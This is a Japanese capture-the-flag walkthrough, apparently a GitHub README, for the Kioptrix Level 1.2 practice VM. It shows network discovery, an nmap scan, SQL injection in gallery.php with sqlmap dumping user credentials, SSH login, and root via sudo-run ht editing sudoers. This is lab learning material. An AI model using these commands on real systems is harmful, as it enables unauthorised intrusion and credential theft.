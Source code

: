 ## Description
- Kioptrix: Level 1.2 (#3)を利用してSQLインジェクションによる特権昇格を学ぶ
- Kalilinuxを攻撃サーバとしてVM環境に構築。KioptrixもVM環境で構築する

### 参考情報
https://www.vulnhub.com/
https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

Kalilinuxの構築
https://qiita.com/y-araki-qiita/items/4621a21e9f0d2e38c331
Kiopritrixのサーバ構築
https://medium.com/@obikag/how-to-get-kioptrix-working-on-virtualbox-an-oscp-story-c824baf83da1

## 1, IPアドレスを特定する
- `netdiscover`コマンドにてIPを調査

## 2, 特定したIPに対してNmapスキャンを実行し、使用しているサービスを特定する
- `nmap`コマンドにて使用サービスを調査 
```
$ sudo nmap -Pn 192.168.3.38
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-02 23:35 JST
Nmap scan report for 192.168.3.38
Host is up (0.00030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:A0:F7:AA (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```
2つのポート(80,22)が空いてるのを確認

## 3, 80ポートが空いているのでブラウザからアクセスをしてみる
- http://192.168.3.38
Home, Blog, Login画面が表示された

## 4, dirbを使用してディレクトリ走査
```
$ dirb 192.168.3.38
```
http://192.168.3.38/gallery　というディレクトリを発見
http://192.168.3.41/gallery/gallery.php?id=1 にアクセスすると画像が表示される

## 5,　URLにMySQLインジェクションを仕込んでみる
http://192.168.3.41/gallery/gallery.php?id=1' にアクセスすると下記のエラーが確認出来た。
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category
```

## 6, SQLmapで脆弱性を診断する
sqlmap -s "http://192.168.3.41/gallery/gallery.php?id=1" --dbms MySQL -dbs
```
```
databaseにgalleryが確認できる

sqlmap -s "http://192.168.3.41/gallery/gallery.php?id=1" --dbms MySQL -dbs -D gallery --tablse
```
```
tablesにdev_accountsが確認出来た。

sqlmap -s "http://192.168.3.41/gallery/gallery.php?id=1" --dbms MySQL -dbs -D gallery --tablse -T dev_accounts --dump
```
```
usernameとpasswordが確認出来た

## 7, 取得したユーザ名とパスワードでsshでログインを実行してみる
```
$ ssh loneferret@192.168.3.41
```
ログインできた

## 8, サーバ内探索
ホームにCampanyPolicy.READMEがあるので中身を見てみると
```
$ cat CampanyPolicy.README
```
sudo htを使用しろとあるので実行する
```
$ sudo ht
```
エラーになるので環境変数を実行
```
$ export TERM=xterm
$ sudo ht
```
実行できた

## 9, sudoersを編集してrootに権限昇格させる
loneferretの行に `/bin/su` を追記し、保存する
```
$ sudo su
$ whoami
root
```

権限昇格！
